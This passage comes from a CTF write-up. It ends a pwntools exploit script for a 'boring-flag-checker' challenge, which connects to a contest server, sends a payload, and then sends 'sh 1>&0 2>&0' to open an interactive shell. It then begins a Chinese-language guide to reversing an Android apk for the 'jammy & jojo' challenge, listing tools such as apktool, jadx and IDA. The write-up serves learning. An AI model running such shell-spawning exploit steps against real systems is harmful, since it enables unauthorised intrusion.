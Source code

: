 ```python
    r = remote('193.57.159.27', 39108)
    # r = remote('0.0.0.0', 1337)
    r.sendlineafter('enter your program: ', pl)
else:
    r = process('./boring-flag-checker', aslr=False)
    gdb.attach(r, """
    b *0x5555555555d1
    """)
    

# 0c fc <00 write>

"""
b *0x16ae + 
"""

input()
r.send(b'\x81')

input()
r.send('sh 1>&0 2>&0')
r.interactive()
```



### jammy & jojo

第一次用 android studio + IDA 動態追蹤 apk，花了滿多時間但也學到滿多的。



我當時在做題目的環境為 win10，用到的工具有:

- IDA pro 7.5 (optional)
- Android Studio / Android emulator
  - device: Pixel_3a_API_24
  - Image: Nougat, 24, x86, Android 7.0
- jar decompile online - [javadecompilers](http://www.javadecompilers.com/apk)
- apk extractor - [apktool](https://ibotpeaches.github.io/Apktool/install/)
- adb - [SDK Platform Tools](https://developer.android.com/studio/releases/platform-tools)
- sign jar - jarsigner (binary is in bin directory of your java JDK)
- trace smali code - [smalidea](https://github.com/JesusFreke/smalidea)
- root device - [supersu](https://supersuroot.org/download/)
- apk decompiler - [jadx](https://github.com/skylot/jadx)



#### Analyze / Modify apk

拿到 apk 後，可以透過 `apktool d -o <output_dir_name> <file_name>.apk` 取得 apk 內部的檔案 (其實也可以透過 unzip)，基本上目錄結構如下:

```bash
├── AndroidManifest.xml
├── apktool.yml
├── build
├── lib # 存放 .so library
├── original # metadata
├── res # 相關的靜態資源如圖檔
└── smali # apk source code
```
